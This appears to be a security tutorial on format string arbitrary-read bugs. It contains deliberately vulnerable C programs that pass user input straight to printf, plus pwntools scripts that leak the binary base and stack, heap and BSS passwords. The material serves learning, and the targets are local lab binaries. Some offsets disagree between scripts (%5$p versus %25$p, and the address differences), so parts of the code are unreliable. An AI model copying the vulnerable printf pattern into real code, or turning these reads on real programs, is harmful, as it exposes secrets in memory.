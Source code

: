 # Format Strings - Arbitrary Read Example

## Read Binary Start

### Code

```c
#include <stdio.h>

int main(void) {
    char buffer[30];

    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    return 0;
}
```

Compile it with:

```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```

### Exploit

```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```

- The **offset is 11** because setting several As and **brute-forcing** with a loop offsets from 0 to 50 found that at offset 11 and with 5 extra chars (pipes `|` in our case), it's possible to control a full address.
  - I used **`%11$p`** with padding until I so that the address was all 0x4141414141414141
- The **format string payload is BEFORE the address** because the **printf stops reading at a null byte**, so if we send the address and then the format string, the printf will never reach the format string as a null byte will be found before
- The address selected is 0x00400000 because it's where the binary starts (no PIE)

![[broken-reference]]

## Read passwords

```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
    char stack_password[20] = "secretStackPass"; // Password in stack
    char input1[20], input2[20];

    printf("Enter first password: ");
    scanf("%19s", input1);

    printf("Enter second password: ");
    scanf("%19s", input2);

    // Vulnerable printf
    printf(input1);
    printf("\n");

    // Check both passwords
    if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
        printf("Access Granted.\n");
    } else {
        printf("Access Denied.\n");
    }

    return 0;
}
```

Compile it with:

```bash
clang -o fs-read fs-read.c -Wno-format-security
```

### Read from stack

The **`stack_password`** will be stored in the stack because it's a local variable, so just abusing printf to show the content of the stack is enough. This is an exploit to BF the first 100 positions to leak the passwords form the stack:

```python
from pwn import *

for i in range(100):
    print(f"Try: {i}")
    payload = f"%{i}$s\na".encode()
    p = process("./fs-read")
    p.sendline(payload)
    output = p.clean()
    print(output)
    p.close()
```

In the image it's possible to see that we can leak the password from the stack in the `10th` position:

![](../../images/image (1234).png)

![[../../images/image (1233).png]]

### Read data

Running the same exploit but with `%p` instead of `%s` it's possible to leak a heap address from the stack at `%25$p`. Moreover, comparing the leaked address (`0xaaaab7030894`) with the position of the password in memory in that process we can obtain the addresses difference:

![[broken-reference]]

Now it's time to find how to control 1 address in the stack to access it from the second format string vulnerability:

```python
from pwn import *

def leak_heap(p):
    p.sendlineafter(b"first password:", b"%5$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

for i in range(30):
    p = process("./fs-read")

    heap_leak_addr = leak_heap(p)
    print(f"Leaked heap: {hex(heap_leak_addr)}")

    password_addr = heap_leak_addr - 0x126a

    print(f"Try: {i}")
    payload = f"%{i}$p|||".encode()
    payload += b"AAAAAAAA"

    p.sendline(payload)
    output = p.clean()
    print(output.decode("utf-8"))
    p.close()
```

And it's possible to see that in the **try 14** with the used passing we can control an address:

![[broken-reference]]

### Exploit

```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
    # At offset 25 there is a heap leak
    p.sendlineafter(b"first password:", b"%25$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```

![[broken-reference]]

